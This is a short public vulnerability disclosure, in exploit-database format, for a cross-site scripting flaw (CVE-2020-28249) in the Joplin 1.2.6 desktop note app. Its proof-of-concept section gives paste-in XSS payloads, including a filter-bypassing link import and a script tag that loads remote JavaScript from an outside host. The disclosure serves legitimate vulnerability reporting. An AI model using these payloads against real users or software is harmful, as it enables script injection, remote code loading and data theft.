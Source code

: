 

 Exploit Title: Joplin 1.2.6 Cross Site Scripting <br>
 Date: 2020-10-27 <br>
 Exploit Author: Philip Holbrook (@fhlipZero) <br>
 Vendor Homepage: https://joplinapp.org/ <br>
 Software Link: https://github.com/laurent22/joplin/releases/tag/v1.2.6  <br>
 Version: 1.2.6  <br>
 Tested on: Windows / Mac  <br>
 CVE : CVE-2020-28249  <br>
 References:  <br>
 PENDING next release <br>

 1. Technical Details
 An XSS issue in Joplin for desktop v1.2.6 allows a link tag in a note to bypass the HTML filter

 2. PoC
 Paste the following payload into a note:
```
<link rel=import href="data:text/html&comma;&lt;script&gt;alert(1)&lt;&sol;script&gt; 
<script src="//brutelogic.com.br&sol;1.js&num; 
<script>alert(1)</script>
```
<img src="./60b6772ab455487b92268ad45a6dd677.png" width="500">

<img src="./7f76fb066b9d4e3bad4c4b59538140e4.png" width="500">
